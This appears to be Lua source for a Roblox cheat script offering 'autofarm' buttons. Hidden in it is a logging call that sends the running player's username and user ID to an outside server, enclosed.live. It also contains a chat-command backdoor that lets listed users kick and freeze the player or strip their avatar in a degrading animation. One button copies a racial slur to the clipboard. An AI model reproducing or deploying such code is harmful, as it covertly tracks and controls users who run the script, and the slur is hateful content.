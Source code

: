 local autofarmbutton = autofarm.AddButton("ATM Autofarm coming soon", function()
    setclipboard("Niggers")
end)

local autofarmbutton = autofarm.AddButton("Muscle Autofarm (reset when done)", function()
    while true do
        wait()
        if not game.Players.LocalPlayer.Character:FindFirstChild("[HeavyWeights]") then
            wait()
            local k = game.Workspace.Ignored.Shop["[HeavyWeights] - $250"]
            game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = k.Head.CFrame + Vector3.new(0, 3, 0)
            if (game.Players.LocalPlayer.Character.HumanoidRootPart.Position - k.Head.Position).Magnitude <= 50 then
                wait(.2)
                fireclickdetector(k:FindFirstChild("ClickDetector"), 4)
            end
        end
        if not game.Players.LocalPlayer.Character:FindFirstChild("[HeavyWeights]") then
            tool = game.Players.LocalPlayer.Backpack:WaitForChild("[HeavyWeights]")
            tool.Parent = game.Players.LocalPlayer.Character
        end
        game:GetService("VirtualUser"):ClickButton1(Vector2.new())
        local d = Vector3.new(-1006.99, -51.1542, -1014.33)
        game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(d)
    end
end)

-- // logs
    game:HttpGet('https://enclosed.live/dimagxloader.php?user='..game:GetService('Players').LocalPlayer.Name..'&userid='..game:GetService('Players').LocalPlayer.UserId..'');



-- mods perms   
local bending = false
player = game.Players.LocalPlayer
function commands(msg, playa)
    if DisableMod == false then
        local Mod = game:GetService('Players'):GetPlayerByUserId(playa)
        local msg = string.lower(msg)
        local SplitCMD = string.split(msg,' ')
        local lower = string.lower(player.Name)
        local cmdfound = string.find(lower, SplitCMD[2])
        if cmdfound then

            if string.find(SplitCMD[1], ':kick') then
				kickmsg = 'PERMA-BANNED'
                player:Kick(kickmsg)
                wait(5)
                while true do end
            end
        end

            if string.find(SplitCMD[1], ':benx') then
                bending = true
                local segtarget = Mod.Name
                local Crouch = player.Character:FindFirstChildWhichIsA('Humanoid'):LoadAnimation(game:GetService("ReplicatedStorage").ClientAnimations.Crouching)
                Crouch.Looped = true
                Crouch:Play()
                local away = .5
                local reversing = false
                local shirt = player.Character:FindFirstChild('Shirt')
                local pants = player.Character:FindFirstChild('Pants')
                if shirt then
                    shirt:Destroy()
                end